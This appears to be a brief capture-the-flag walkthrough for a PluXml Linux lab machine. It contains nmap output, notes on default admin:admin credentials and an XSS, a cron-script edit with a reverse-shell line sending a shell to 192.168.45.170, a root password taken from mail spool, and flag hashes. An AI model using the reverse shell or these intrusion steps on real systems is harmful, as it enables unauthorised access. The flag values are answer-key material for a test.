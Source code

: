 # Linux - plum

---

### Host

```bash
192.168.136.28
```

### Scan

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-19 00:58 EST
Nmap scan report for 192.168.136.28
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)

80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: PluXml - Blog or CMS, XML powered !
|_http-server-header: Apache/2.4.56 (Debian)

Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   32.16 ms 192.168.45.1
2   32.13 ms 192.168.45.254
3   28.13 ms 192.168.251.1
4   28.23 ms 192.168.136.28

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.21 seconds
```

---

## Walkthrough

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image.png)

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%201.png)

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%202.png)

- default password - admin : admin

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%203.png)

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%204.png)

- xss found
- static1 page - test php

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%205.png)

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%206.png)

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%207.png)

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%208.png)

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%209.png)

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%2010.png)

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%2011.png)

c2da830b2bd6be7b3b3a9d228b62b617

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%2012.png)

```bash
#!/bin/sh -e
#
# sessionclean - a script to cleanup stale PHP sessions
#
# Copyright 2013-2015 Ondřej Surý <ondrej@sury.org>
#
# Permission is hereby granted, free of charge, to any person obtaining a copy of
# this software and associated documentation files (the "Software"), to deal in
# the Software without restriction, including without limitation the rights to
# use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of
# the Software, and to permit persons to whom the Software is furnished to do so,
# subject to the following conditions:
#
# The above copyright notice and this permission notice shall be included in all
# copies or substantial portions of the Software.
#
# THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
# IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS
# FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR
# COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER
# IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN
# CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

echo "sh -i >& /dev/tcp/192.168.45.170/9091 0>&1" >> session
```

- can’t write into the file. discover another way.
- find an open port 25 → SMTP → check /var/spool. check information stored in /var.

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%2013.png)

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%2014.png)

- root : 6s8kaZZNaZZYBMfh2YEW

![image.png](Linux%20-%20plum%20180553bebf0f809eab7efadeb1a6b3a4/image%2015.png)

e0fffbc4c4d79f6a5e0ee607d70f1132